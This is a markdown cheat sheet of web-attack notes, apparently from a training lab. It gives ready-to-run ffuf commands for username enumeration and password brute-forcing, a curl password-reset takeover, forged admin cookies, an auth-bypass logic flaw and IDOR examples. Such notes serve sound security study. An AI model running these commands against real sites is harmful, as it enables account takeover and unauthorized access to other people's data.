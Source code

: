 # Hack users and passwords

#### Account username research

1. Create list of usernames based on eg. errors on website
2. Find endpoint where login is possible
3. Use FFUF to bypass:
```
$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \
-H "Content-Type: application/x-www-form-urlencoded" -u http://<domain_name>/customers/signup -mr "username already exists"
```
* -w  selects the file's location on the computer that contains the list of usernames that we're going to check exists. 
* -X  specifies the request method, this will be a GET request by default, but it is a POST request in this example. 
* -d  specifies the data that we are going to send. In this example fields: username, email, password and cpassword. 
      NOTE: In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. 
* -H  used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. 
* -u  specifies the URL we are making the request to, and finally
* -mr the text on the page we are looking for to validate we've found a valid username.

To save only FUZZ outup in file:
```
$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" \
-H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" -s | tee output.txt
```

4. Run FFUF with specific user and password 
```
$ ffuf -w output.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST \ 
-d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://<domain_name>/customers/login -fc 200
```

#### Account takeover

1. Create account with email in company domain
2. Run curl to reset password for other user, using your own email:
```
$ curl 'http://<domain_name>/customers/reset?email=<name>%40<email>' \
-H 'Content-Type: application/x-www-form-urlencoded' -d 'username=<name>&email=<new_email>'
```

---

## PHP code example

This PHP code checks to see whether the start of the path the client is visiting begins with /admin. 
Then further checks are made to see whether the client is, in fact, an admin. 
If the page doesn't begin with /admin, the page is shown to the client.
```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Three equals signs (===) means it's looking for an exact match on the string, so it's case sesitive. 
The code presents a logic flaw because an unauthenticated user can bypass the authentication checks.

---

## Cookies

1. Check Set-Cookie header when interacting with website.

2. Check status:
```
$ curl http://<domain_name>/cookie-test
```

3. Send cookies:
```
$ curl -H "Cookie: logged_in=true; admin=true" http://<domain_name>/cookie-test
```

When cookie is a hash value use:
* Hashing decryptor -> https://crackstation.net/

---

# IDOR - Insecure Direct Object Reference

* access control vulnerability
* able to view the other users' content using their Id number while still being logged in with a different account (or not logged in at all)
* can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, 
  and it is not validated on the server-side to confirm the requested object belongs to the user requesting it
 
### Examples

1. Create two accounts and swap the Id numbers between them.
2. Changing User ID in url to get access to other account details
```
http://<domain_name>/profile?user_id=1000
```





